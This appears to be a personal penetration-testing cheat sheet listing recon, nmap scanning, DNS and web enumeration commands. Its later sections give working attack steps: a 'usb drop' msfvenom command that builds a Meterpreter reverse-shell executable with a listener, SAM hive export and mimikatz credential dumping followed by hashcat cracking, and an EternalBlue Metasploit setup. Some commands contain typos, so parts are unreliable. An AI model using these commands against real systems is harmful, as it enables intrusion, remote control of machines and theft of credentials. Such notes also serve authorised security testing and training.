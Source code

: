 
# Passive recon:

allintitle: \"index of/admin\"
inurl:<url> allintitle: \"index of/admin\"

theHarvester -d cisco.com -b google  

RECON-NG:
 workspaces create plu 


# Active scan:
arp scan:
nmap -PR <ip>
nmap -PA <ip>

nmap -P 1-200 <ip>
nmap --top-port 2000 <ip>

Scan all port:
nmap -p- <ip>

SYN Scan:
nmap -sS <ip>

FIN Scan:
nmap -sF <ip>

ACK Scan:
nmap -sA <ip>

Scan no flag:
nmap -sN <ip>

XMAS Scan:
nmap -sX <ip>

Pn: Treat all hosts as online -- skip host discovery
nmap -Pn <ip>

nmap -A -Pn <ip>

nmap -script=http-waf-fingerprint <url> : detect waf
lbd <url> : detect load balancing
whatweb <url>: scan web info
nikto <url>: enum web dir

  
profiling with nmap:
nmap <ip> -A

nmap <ip> -sS: TCP SYN port scan (Default)

nmap --script nmap-vulners -sV -p80 <ip> : Scan vuln 

nmap --script vulscan --script-args vulnscandb=exploitdb.csv -sV -p80 <ip> : Scan vuln with exploitdb

link cheatsheet:
https://academy.ehacking.net/courses/recipe-2-active-information-gathering-enumeration-the-right-way/lectures/27146478


msf5 use auxiliary/scanner/http/dir_listing
msf5 use auxiliary/scanner/http/file_dir

Dns enum:
host -t ns <url>
host -t mx <url>
host  <url>
  
nslookup -type=mx pluralsight.com
nslookup -type=soa pluralsight.com
nslookup -type=any pluralsight.com

hping3 -F -c 3-p 79 -s  5150 192.168.0.25
-f: flag
-c: count
-p: port
-s: source port

# Profiling linux:
lsof -i | grep LISTEN
lsof -i tcp
ss -tl
ss -lu
  
# Recon tool:
metagofill - passive recon
fcrackzip - crack zip password
digicert ssltool( website) - looking cert ssl

# Web enum
nmap --script=http-enum urbandictionary.com 
nmap --script=http-php-version urbandictionary.com 

# scan vuln
nmap -P <ip> -oG - | nikto -h
-h: host
# bash encode
iconv -f utf8 -t utf15 hh.txt> jj.txt
# python encode
str.encode("base64","strict") 

  
 # usb drop:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=<PORT> -f exe -a x64 -0 /root/Desktop/salari.exe

msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST
set LPORT
RUN


# Export reg hive SAM windows
dir in downloads
cmd:

reg save hklm\sam wind10-sam.hiv
reg save hklm\sec wind10-sec.hiv

- hklm: hkey local machine

download mimikatz and copy 2 file .hiv to sub folder of minikit x64

Run mimikats by admin

privilege::debug
log reg-sam-sec.log
sekurlsa::logonpasswords

# elevate privilege:
token::elevate
# dump sump
lsadump::sam win10-sam.hiv win10-sec.hiv
in kali, run hashcat to get a plain text password

# enternal blue attack:
msf5> search enternalblue
use ..
set payload windows/x65/meterpreter/reverse_tcp
options
set RHOSTS,PORT,LHOST
set smbuser <user>
set smbpass <pass>
